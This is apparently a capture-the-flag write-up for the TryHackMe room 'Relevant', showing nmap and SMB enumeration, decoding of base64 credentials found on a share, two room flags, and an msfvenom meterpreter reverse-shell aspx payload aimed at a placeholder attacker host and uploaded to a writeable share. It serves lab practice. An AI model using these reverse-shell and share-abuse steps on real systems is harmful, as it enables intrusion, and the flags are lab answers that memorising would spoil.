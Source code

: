<h1>Relevant</h1>
<h3>December 24, 2024</h3>

<br>

<br>

https://tryhackme.com/r/room/relevant

<br>

<br>
nmap -sC -sV -sS -Pn -p- -T4 [Target_IP]<br>

![image](https://github.com/user-attachments/assets/2b1695db-fe46-428b-bd11-a76d6644e989)


<br>

nt4wrksv

<br>

smbclient -L \\relevant.thm<br>

![image](https://github.com/user-attachments/assets/40ed588d-5c1e-42aa-9e7c-ee670fdf999c)

<br>

smbclient -L \\\\relevant.thm\\nt4wrksv<br>

![image](https://github.com/user-attachments/assets/9bdc76d8-9135-44d8-86f0-76c8ebffad62)

<br>

ls<br>

cat passwords.txt<br>
[User Passwords - Encoded]<br>
Qm9iIC0gIVBAJCRXMHJEITEyMw==<br>
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk<br>

<br>


![image](https://github.com/user-attachments/assets/d407eec0-9d53-4552-8ed6-c4aec0cff47b)

<br>

echo Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d<br>
Bob - !P@$$W0rD!123r<br><br>

![image](https://github.com/user-attachments/assets/fe142f7d-3f9b-41ce-8dc0-51e10d487f71)

<br>

![image](https://github.com/user-attachments/assets/718792f2-5f40-4c0e-8f59-938317aa67db)

<br>

![image](https://github.com/user-attachments/assets/ee2c2983-cae9-4730-98c3-2e061847e683)

<br>












THM{fdk4ka34vk346ksxfr21tg789ktf45}<br>

THM{1fk5kf469devly1gl320zafgl345pv}

![image](https://github.com/user-attachments/assets/cd4976bb-8f65-4683-9861-cae9f311d288)

<br>

![image](https://github.com/user-attachments/assets/ecde9507-0634-482e-b550-c755ef856d0c)

<br>

echo QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk | base64 -d<br>
Bill - Juw4nnaM4n420696969!<br>

![image](https://github.com/user-attachments/assets/e7d0bebe-9d54-478f-9fde-b528fd2a16ba)

<br>
<br>
Bob:!P@$$W0rD!123r<br>
Bill:Juw4nnaM4n420696969!<br>

<p>The network share from ‘nt4wrksv’ is writeable</p>

<br>
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=[Attack VM] lport=[Attack Port] -f aspx -o shell.aspx


![image](https://github.com/user-attachments/assets/c26bbeaa-d518-48f5-8f71-53313d5b859a)

<br>
put shell.aspx<br>


![image](https://github.com/user-attachments/assets/d06aa0f6-45e5-405e-84e1-a5e6e8669aca)


<br>
msfupdate<br>
msfconsole<br>
msf6><br>





Global: 826th all time, 121st monthly
Brazil: 18th all time2nd monthly
493 completed rooms . 55 badges . 65,045 points
<br>

![image](https://github.com/user-attachments/assets/adf7bef1-49c7-4f4e-ba05-43049f890788)
